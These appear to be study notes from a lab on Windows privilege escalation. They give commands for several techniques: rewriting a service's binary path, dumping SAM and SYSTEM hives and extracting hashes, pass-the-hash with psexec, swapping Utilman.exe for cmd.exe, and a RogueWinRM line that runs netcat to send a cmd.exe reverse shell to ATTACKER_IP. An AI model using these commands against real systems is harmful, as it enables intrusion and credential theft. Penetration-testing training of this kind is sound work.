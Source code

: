 ### Insecure Service Permissions
If the Discretionary Access Control List (DACL) of the Service (not Service executable) is not well configurated, we could change the BINARY_PATH_NAME <br>
#### Check service DACL
Use Acesschk: https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk <br>
Go to dir of AccessChk and then: 

    accesschk64.exe -qlc <SERVICE>
#### Change Service's associated executable and account
    sc config THMService binPath= <"C:\Users\thm-unpriv\rev-svc3.exe"> obj= <LocalSystem>

## Vulnerable Software
### Get all software
    wmic product get name,version,vendor

## Dangerous privileges
    whoami /priv 
### SeBackup / SeRestore
The SeBackup and SeRestore privileges allow users to read and write to any file in the system <br>
#### Backup SAM and SYSTEM hashes
    reg save hklm\system C:\Users\THMBackup\system.hive
    reg save hklm\sam C:\Users\THMBackup\sam.hive
#### Retrieve user's password hashes (example with impacket)
    python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
#### Use Administrator's hash to perform Pass-the-Hash attack
    python3.9 /opt/impacket/examples/psexec.py -hashes <PASSWORD_HASH> administrator@<MACHINE_IP>

### SeTakeOwnership
The SeTakeOwnership privilege allows a user to take ownership of any object on the system <br>
Example with Utilman.exe abuse: <br>
#### Take ownership of Utilman.exe (application that provide Ease of Access options during lock screen)
    takeown /f C:\Windows\System32\Utilman.exe
#### Give full access to the user
    icacls C:\Windows\System32\Utilman.exe /grant <THMTakeOwnership>:F
#### Change utilman.exe by cmd 
    copy cmd.exe utilman.exe
Then lock the screen and use the cmd running as system user

### SeImpersonate / SeAssignPrimaryToken
These privileges allow a process to impersonate other users and act on their behalf. <br>
Use RogueWinRM 

    c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe <ATTACKER_IP> <PORT>"


